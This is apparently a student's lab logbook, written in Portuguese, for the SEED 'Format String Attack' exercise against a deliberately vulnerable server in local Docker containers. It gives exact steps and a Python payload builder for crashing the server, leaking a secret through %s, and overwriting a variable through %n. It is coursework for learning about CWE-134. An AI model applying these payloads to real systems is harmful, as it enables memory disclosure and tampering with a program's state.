










## LOGBOOK 6 — Format String Attack 

Este logbook segue o guião SEED “Format String Attack”. Reproduzimos o setup, comandos exatos e evidências (com imagens na pasta `images/`).

Links úteis:
- Post de referência: https://www.securecoding.com/blog/format-string-vulnerability/

---

## Task 0 — Setup e contexto do laboratório

Objetivo: preparar o ambiente (desligar ASLR, compilar o servidor vulnerável, construir e iniciar os containers) e validar a ligação ao serviço.

### 0.1 Desligar o ASLR (slides)

“desligar o ASLR” torna os endereços previsíveis para experiências de exploração.

- Comando temporário (até reboot):
```bash
sudo sysctl -w kernel.randomize_va_space=0
```
- Níveis: 0=off, 1=parcial, 2=completo (default). Para voltar a ligar: `sudo sysctl -w kernel.randomize_va_space=2`.

Impacto: as bases de stack/heap/libc/VDSO deixam de variar entre execuções, facilitando a construção de payloads para esta lab.

### 0.2 Compilação dos binários vulneráveis e instalação nos containers

Dentro de `Labsetup/server-code/`:

```bash
make           # gera server, format-32, format-64
make install   # copia para fmt-containers/
```

Notas:
- O warning `[-Wformat-security]` é esperado; 



### 0.3 Construção e arranque dos containers

Comandos :
```bash
dcbuild   # docker-compose build
dcup      # docker-compose up
```

Ao arrancar, o servidor imprime endereços úteis:
```
server-10.9.0.5 | The input buffer's address:    0xffffd240
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
```

Validação rápida (ligação cliente → servidor):
```bash
echo hello | nc 10.9.0.5 9090
```
 

---

## Task 1 — Fazer o programa crashar em `myprintf()`

Objetivo: enviar uma entrada que, ao ser usada como format string em `printf(msg)`, provoque crash antes de “Returned properly”.

Ideia chave (slides): o especificador `%s` faz o `printf` interpretar um valor da stack como ponteiro para string e tentar ler a memória que lá aponta. Ao repetir muitos `%s`, inevitavelmente há-de tentar dereferenciar um endereço inválido → `Segmentation fault`.

### 1.1 Gerar payload com `build_string.py`

O guião traz um exemplo em `attack-code/build_string.py`.

Notas práticas:
- O servidor aceita até 1500 bytes; 400×"%s" + newline fica bem dentro do limite.
- O `\n` no fim ajuda o programa no servidor a prosseguir a leitura/print.
- Se 400 não chegar , aumentar. A heurística é repetir `%s` até que algum argumento-aleatório na stack seja um ponteiro inválido.

Variante também analisada: prefixar dados “marcadores” e usar vários `%x`, terminando com `%n` (pode também causar crash ao tentar escrever num endereço não-mapeado)
Aqui, os quatro primeiros bytes parecem um endereço de stack (little-endian), seguidos de `abcd` e muitos `%.8x` + `%n`.

### 1.2 Enviar para o servidor

Gerar e enviar:
```bash
python3 build_string.py
cat badfile | nc 10.9.0.5 9090
```

Sinais de sucesso (no servidor):
- Vê-se “Received N bytes.” e “The target variable’s value (before): …”, mas NÃO aparece “Returned properly” — o processo filho do `format` crashou durante `printf`.

Ambas as abordagens tiveram sucessso.
- 

- 

### 1.3 Conclusões

- `%s` é o mais fiável para crash rápido; `%8x` tende só a imprimir valores inteiros e não é certo que crashe por si só.
- Se nada crashar, aumentar a contagem de `%s`.

---

## Task 2 — Ler informação da memória com a format string

Objetivo: usar a vulnerabilidade para (A) descobrir o OFFSET certo dos argumentos na stack e (B) imprimir a string secreta.

### 2.A Encontrar o OFFSET (leitura da stack com %08x)

Método:
- Colocar um marcador reconhecível no início do payload: a string de 8 bytes `DCBAabcd`.
- Depois, concatenar muitos especificadores `%08x.` para que o `printf` vá despejando valores sucessivos da stack.
- Procurar, na saída do servidor, onde surgem as palavras `41424344` ("ABCD") e `64636261` ("abcd").

Evidência (síntese do log):
- O servidor imprimiu `... 000005dc.41424344.64636261.78383025 ...` — o `41424344` surge na 64.ª palavra impressa.
- Conclusão: OFFSET = 63. Isto é, após 63 ocorrências de `%08x.`, o argumento seguinte corresponde aos primeiros 4 bytes do nosso payload (o nosso “marcador”).

Comandos úteis usados para validar o payload:
```bash
# Inspecionar o princípio do badfile (gerado em attack-code/)
hexdump -C badfile | sed -n '1,6p'

# Contar quantos "%08x." tem o payload
grep -o -a '%08x\.' badfile | wc -l   # → 63
```

Imagens:
- 

Notas:
- Mantendo os containers a correr (sem reiniciar) e com ASLR desligado, os endereços observados mantiveram-se estáveis. Isso simplifica a contagem/validação.

### 2.B Imprimir a mensagem secreta com %s

Ideia: se colocarmos, como “primeiro argumento” na stack controlada, o endereço da string secreta, então um único `%s` na posição correta fará o `printf` dereferenciar esse ponteiro e imprimir o conteúdo da memória.

Dados do servidor para esta execução:
- Endereço da secret: `0x080b4008`

Estratégia do payload:
1) Escrever os 4 primeiros bytes do `badfile` com o endereço da secret (little-endian).
2) Manter `abcd` nos bytes 4..7 (continua útil como marcador visual).
3) Colar `"%08x." * 63` e terminar com `<<<%s>>>` para consumir 63 argumentos e usar `%s` sobre o 64.º — que são precisamente os nossos primeiros 4 bytes (o ponteiro para a secret).

Exemplo (trecho do script, Python 3):
- 

Verificações rápidas antes do envio:
```bash
hexdump -C badfile | sed -n '1,6p'      # deve começar por: 08 40 0b 08 61 62 64 65 ...
grep -a -o '%08x\.' badfile | wc -l    # 63
grep -a -o '%s' badfile | wc -l         # 1
```

Envio:
```bash
cat badfile | nc 10.9.0.5 9090
```

Evidência no servidor:
- Surge `<<<A secret message>>>` na saída, imediatamente antes do “The target variable's value (after): ...”.

Imagens:
- 

Observações:
- O tamanho do `badfile` manteve-se ≤ 1500 bytes (o programa lê no máximo isto de stdin).
- Se o `%s` imprimir `<<<(null)>>>`, a posição/offset ainda não está correta — ajustar o `OFFSET`.

---

Resumo Task 2:
- 2.A: OFFSET determinado como 63 usando o marcador `DCBAabcd`
- 2.B: Ao colocar `0x080b4008` como primeiro dword do payload e usar `%s` na posição certa, obtivemos a impressão de `A secret message` a partir da memória do processo.


---

## Questão 2 — A format string tem de estar na stack para existir vulnerabilidade?

Resposta curta: não. A vulnerabilidade MITRE CWE‑134 (Use of Externally‑Controlled Format String) existe sempre que dados controlados pelo utilizador são usados como primeiro argumento de funções tipo `printf`/`fprintf`/`syslog`/etc. (por exemplo, `printf(input)`). O local onde a string reside (stack, heap, segmento estático) não elimina a vulnerabilidade; o que muda é a forma de exploração e os “truques” pedagógicos que ficam disponíveis.

Porque não depende do local:
- `printf` interpreta a format string e, para cada especificador `%...`, consome argumentos variádicos do frame do chamador. Se o programador não passou argumentos suficientes ou adequados (porque usou diretamente a string do utilizador como formato), a função lê valores do que estiver na stack como se fossem argumentos — originando leaks (`%x/%s`), escrita (`%n`) e DoS. Isto é independente de a própria string viver na stack ou na heap.

Porque o nosso lab coloca a string na stack:
- No programa vulnerável do SEED, a entrada é copiada para um `char buf[1500]` local e depois chamada via `printf(buf)`. Assim, a format string está na stack do chamador. Isso facilita técnicas didáticas como:
	- pôr um marcador no início (ex.: `DCBAabcd`) e “andar” com `%08x.` até ele aparecer, calculando um OFFSET;
	- fazer com que um `%s`/`%n` a seguir ao OFFSET consuma bytes nossos (colocados no início do `buf`) como se fossem argumentos.

O que deixaria de funcionar (tal como ensinado) se a format string estivesse na heap:
- Task 1 — Crash com muitos `%s`: continua a funcionar. O crash vem de o `%s` tentar desreferenciar um “argumento” inválido lido da stack; basta controlarmos a format string, não precisa de estar na stack.
- Task 2.A — Descobrir o OFFSET com o marcador: não funciona como no guião. O método depende de os nossos primeiros bytes (marcador) estarem na própria stack; com a string na heap, eles não aparecem na sequência de palavras que `%08x` vai imprimindo.
- Task 2.B — Imprimir a secret colocando `&secret` nos primeiros 4 bytes e depois `%s`: também não funciona como demonstrado, pelo mesmo motivo — o `%s` não irá consumir os nossos 4 bytes da heap como “argumento” variádico da stack.
- Task 3.A / 3.B — Escrever em `target` com `%n`: igualmente não funcionaria como mostrado, pois o `%n` não usaria o endereço colocado no início do nosso payload (que estaria na heap, não na lista de argumentos da stack). Existem técnicas alternativas documentadas (ex.: índices posicionais `%k$...`, aproveitar ponteiros úteis já presentes no frame), mas saem do escopo deste guião.

Conclusão:
- CWE‑134 não exige que a format string esteja na stack; o requisito é o controlo do primeiro argumento da família `printf`. No nosso lab, a escolha de a colocar na stack simplifica a demonstração de OFFSET e o uso direto de `%s/%n` sobre bytes controlados pelo atacante.

Referências rápidas:
- MITRE CWE‑134 — Use of Externally‑Controlled Format String.
- SEI CERT (FIO30‑C) — Excluir input não confiável de format strings.
- OWASP — Format String Attack: visão geral de `%x/%s/%n` e variádicos.
- SEED Labs — Format String Attack (32‑bit): código do programa vulnerável e guião.


---

## Task 3 — Modificar a memória do servidor com `%n`

Objetivo: alterar o valor da variável global `target`. Sub‑tarefas:
- 3.A: mudar para um valor qualquer;
- 3.B: ajustar exatamente para `0x5000`.

Pré‑requisito (de 2.A): nesta execução o nosso primeiro “argumento” útil surge após 63 leituras, logo usamos `OFFSET = 63` walkers de `%08x.`.

Endereços (exemplo do nosso servidor):
- `target` em `0x080e5068`.

### 3.A — Escrever “algum valor” com `%n`

Ideia: colocar `&target` no início do payload e, depois de imprimir `OFFSET` valores com `%08x.`, invocar `%n`. O `%n` escreve no endereço dado pelo próximo “argumento” o número de caracteres já impressos por este `printf` —  alteração de `target`.

Script :
```python
#!/usr/bin/env python3
TARGET_ADDR = 0x080e5068   # print do servidor
OFFSET      = 63           # da Task 2.A nesta execução

N = 1500
b = bytearray(0 for _ in range(N))

# 1) primeiros 4 bytes = &target (little-endian)
b[0:4] = TARGET_ADDR.to_bytes(4, 'little')

# 2) marcador opcional 
b[4:8] = b"abcd"

# 3) caminhar OFFSET argumentos e depois escrever com %n
fmt = ("%08x." * OFFSET) + "%n"
b[8:8+len(fmt)] = fmt.encode('latin-1')

open('badfile','wb').write(b)
```

Envio:
```bash
cat badfile | nc 10.9.0.5 9090
```

Evidência (do nosso log):
- Antes: `The target variable's value (before): 0x11223344`
- Depois: `The target variable's value (after):  0x0000023f` 

Imagem: 

Notas:
- O valor escrito é o número de caracteres já impressos. Com `OFFSET=63`, cada `%08x.` imprime 9 chars, por isso `base = 8 + 63×9 = 575` (8 literais iniciais + 567 dos walkers).

### 3.B — Definir `target` exatamente para `0x5000`

Objetivo: escolher um padding para que o total de caracteres impressos imediatamente antes do `%n` seja `0x5000` (= 20480). Usamos `%<PAD>c` para imprimir padding de espaços até perfazer o total desejado.

Fórmula do padding:
- `LITERAL = 8` (os primeiros 8 bytes do payload são literais no `printf`)
- `PER_WALK = 9` (cada `%08x.` imprime 9 chars)
- `BASE = LITERAL + OFFSET×PER_WALK = 8 + 63×9 = 575`
- `PAD = 0x5000 - BASE = 20480 - 575 = 19905`

Script (3.B):
Imagem: 


Envio e verificação:
```bash
cat badfile | nc 10.9.0.5 9090
```
Saída esperada (síntese):
```
The target variable's value (before): 0x11223344
...
The target variable's value (after):  0x00005000
```

Imagem: 

Dicas de alinhamento se `%n` não acertar no endereço certo (fizemos uso da primeira):
- O `%c` consome um argumento. Se notar que, ao adicionar o `%{PAD}c`, o `%n` já não escreve em `&target`, existem duas soluções rápidas:
	1) reduzir `OFFSET` para `62` (assim o `%c` consome o 63.º e o `%n` usa o 64.º), ou
	2) colocar `&target` duas vezes nos primeiros 8 bytes (em vez de `abcd`), de modo que `%c` consome a primeira cópia e o `%n` escreve na segunda. Ajuste a fórmula do `BASE` para `LITERAL = 8` (mantém‑se) e recalcule `PAD`.

---

Resumo Task 3:
- 3.A: Usando `%n` após `OFFSET=63` walkers de `%08x.`, alterámos `target` para um valor diferente de `0x11223344`.
- 3.B: Com padding calculado, ajustámos exatamente para `0x5000`.

